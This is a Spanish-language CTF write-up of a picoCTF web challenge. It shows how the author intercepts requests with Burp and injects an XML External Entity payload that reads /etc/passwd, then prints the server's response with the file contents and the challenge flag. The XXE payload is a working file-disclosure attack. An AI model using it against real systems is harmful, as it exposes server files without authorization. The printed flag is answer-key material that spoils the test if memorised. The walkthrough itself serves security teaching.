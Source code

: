## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:63655/)
## Solución
nos encontramos con una pagina que habla de computadoras y hay 3 recuadros con su boton de detalles sata un mensaje pero parece ser una simple descripción asique revisamos el código fuente
al ver que no hay algo que sirva nos dirigimos al burp para interceptar la pagina y nos dirigimos al apartado de https history y procedemos a revisar los detalles de cada recuatro para sacar los post.
![[Pasted image 20250930140009.png]]
como vemos que los post son iguales podemos hacer un ataque  XXE con el repeter del burp 
nos ubicamos a la ultima seccion del post y agregamos un comando de esta forma
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]> 
	<data>
		<ID>
		&xxe;
		</ID>
	</data>
```
esto nos dara como respuesta la lectura del archivo passwd 

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Tue, 30 Sep 2025 20:05:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
## Referencias
XXE [Qué es XXE (XML External Entity) y cómo se soluciona - Hackmetrix Blog](https://blog.hackmetrix.com/xxe-xml-external-entity/)
